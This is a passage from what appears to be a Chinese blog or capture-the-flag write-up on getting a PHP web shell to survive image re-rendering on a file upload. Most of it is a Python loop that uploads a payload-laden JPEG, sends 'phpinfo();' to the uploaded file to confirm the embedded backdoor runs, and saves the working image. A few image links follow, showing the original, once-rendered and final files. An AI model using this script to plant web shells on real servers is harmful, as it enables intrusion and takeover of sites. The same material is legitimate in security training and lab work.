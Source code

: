 ```python
    files = {'file': ('modified_image.jpg', modified_image_data, 'image/jpeg')}
    response = requests.post(upload_url, files=files)
    # 获取上传后的状态、文件名
    response_json = response.json()
    msg = response_json.get("msg")

    # 检查响应
    if response.status_code == 200:
        print('上传成功' + f"-----文件名 {msg}")
        
        # 测试图片接口
        img_url = get_url + str(msg)
        test_resp = requests.get(img_url)
        if test_resp.status_code == 200:
            print("图片测试成功")
            data = {"1":"phpinfo();"}
            eval_resp = requests.post(img_url,data=data)
            if "phpinfo" in eval_resp.text:
                print("木马已存活...")
                # 在成功检测到木马文件后保存修改后的文件
                with open(output_path, 'wb') as output_file:
                    output_file.write(modified_image_data)
                print(f'修改后的文件已保存到: {output_path}')
                break
            else:
                print("正在生成木马")
        else:
            print("图片上传失败，请检查图片")
    else:
        print(f'上传失败，状态码: {response.status_code}')
        print(f'响应内容: {response.text}')

```
![res](https://the0n3.top/medias/show-upload/res1.png)

放3组图，分别是原图，一次渲染图，以及成果图

![原图](https://the0n3.top/medias/show-upload/cola.jpg) 

![一次渲染图](https://the0n3.top/medias/show-upload/payload_cola.jpg)

![成果图](https://the0n3.top/medias/show-upload/success_image.jpg)

再试一次...
![res](https://the0n3.top/medias/show-upload/res2.png)

跑一下柴郡

原图

![ori](https://the0n3.top/medias/show-upload/cj.jpg)
